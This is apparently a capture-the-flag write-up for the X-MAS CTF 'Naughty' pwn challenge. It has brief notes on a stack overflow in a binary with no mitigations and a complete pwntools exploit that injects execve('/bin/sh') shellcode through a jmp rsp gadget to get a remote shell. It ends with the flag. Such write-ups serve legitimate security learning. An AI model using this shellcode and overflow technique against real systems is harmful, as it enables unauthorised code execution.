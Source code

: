 ```yaml
---
title: Naughty
date: 2021-01-22
categories: [pwn]
tags: [xmasctf]
toc: false
---
```


#### Description: You haven't been naughty, have you?

Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x400000)
RWX: Has RWX segments

![](https://elnathctf.files.wordpress.com/2021/01/image-1.png?w=1024)

  
#### Notes:

- The binary has no mitigation, so we can do a stack bof and write our shellcode somewhere on the stack

- fgets() reads in 0x47 bytes from the user, the two bytes from the base pointer has to be 0xe4ff, which is the opcode for jmp esp (hint that we may need this in our payload)

- Since we are limited on stack space, we could overwrite the return address with a jmp rsp to jump to the beginning of our buffer to execute system('/bin/sh') shellcode

  
#### PoC:

```Python

from pwn import *

def build_shellcode():

	shellcode = asm('push rax')
	shellcode += asm('xor rdx, rdx')
	shellcode += asm('xor rsi, rsi')
	shellcode += asm('movabs rbx, 0x68732f2f6e69622f')
	shellcode += asm('push rbx')
	shellcode += asm('push rsp')
	shellcode += asm('pop rdi')
	shellcode += asm('mov al, 0x3b')
	shellcode += asm('syscall')
	
	return shellcode

def send_payload(shellcode, io):

	payload = shellcode
	payload += b'\x00'*7 # pad
	payload += b'A'*(39-(len(shellcode))) # junk
	payload += p64(0xe4ff) # JMP ESP opcode for cmp
	payload += b'\x00'*2 # pad
	payload += p64(0x40067f) # jump rsp
	payload += asm('sub rsp, 0x40; jmp rsp') # jump to beginning of buffer to run shellcode
	
	io.sendlineafter('XMAS', payload)

def main():
	isLocal = False
	isDebug = False
	
	if isLocal:
		io = process('./chall')
	else:
		io = remote('challs.xmas.htsp.ro', 2000)
		
	if isDebug:
		gdb.attach(io, '''
			b *0x4006b1
			b *0x4006d5
		''')

	context.log_level = 'debug'
	context.terminal = ['tmux', 'splitw', '-v']
	context.arch = 'amd64'

	shellcode = build_shellcode()

	send_payload(shellcode, io)

	io.interactive()

if __name__=='__main__':
	main()
	
#X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}

```